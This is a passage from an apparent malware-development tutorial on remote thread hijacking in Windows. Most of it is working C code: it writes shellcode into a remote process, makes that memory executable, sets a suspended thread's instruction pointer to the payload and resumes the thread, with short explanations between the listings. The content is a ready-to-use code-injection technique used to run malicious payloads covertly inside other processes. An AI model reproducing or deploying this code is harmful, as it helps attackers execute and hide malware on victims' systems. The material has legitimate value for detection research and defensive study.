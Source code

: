 ```
	if (!WriteProcessMemory(hProcess, *ppAddress, pShellcode, sSizeOfShellcode, &sNumberOfBytesWritten) || sNumberOfBytesWritten != sSizeOfShellcode) {
		printf("\n\t[!] WriteProcessMemory Failed With Error : %d \n", GetLastError());
		return FALSE;
	}


	if (!VirtualProtectEx(hProcess, *ppAddress, sSizeOfShellcode, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
		printf("\n\t[!] VirtualProtectEx Failed With Error : %d \n", GetLastError());
		return FALSE;
	}


	return TRUE;
}


```
### **Remote Thread Hijacking Function**

After creating the suspended process and writing the payload to the remote process, the final step is to use the thread handle which was returned by `CreateSuspendedProcess` to perform thread hijacking. This part is the same as the one demonstrated in the local thread hijacking module.

To recap, `GetThreadContext` is used to retrieve the thread's context, update the `RIP` register to point to the written payload, call `SetThreadContext` to update the thread's context and finally use `ResumeThread` to execute the payload. All of this is demonstrated in the custom function below, `HijackThread`, which takes two arguments:

* `hThread` - The thread to hijack.
* `pAddress` - A pointer to the base address of the payload to be executed.


```
BOOL HijackThread (IN HANDLE hThread, IN PVOID pAddress) {

	CONTEXT	ThreadCtx = {
		.ContextFlags = CONTEXT_CONTROL
	};

	// getting the original thread context
	if (!GetThreadContext(hThread, &ThreadCtx)) {
		printf("\n\t[!] GetThreadContext Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

 	// updating the next instruction pointer to be equal to our shellcode's address
	ThreadCtx.Rip = pAddress;

	// setting the new updated thread context
	if (!SetThreadContext(hThread, &ThreadCtx)) {
		printf("\n\t[!] SetThreadContext Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	// resuming suspended thread, thus running our payload
	ResumeThread(hThread);

	WaitForSingleObject(hThread, INFINITE);

	return TRUE;
}

```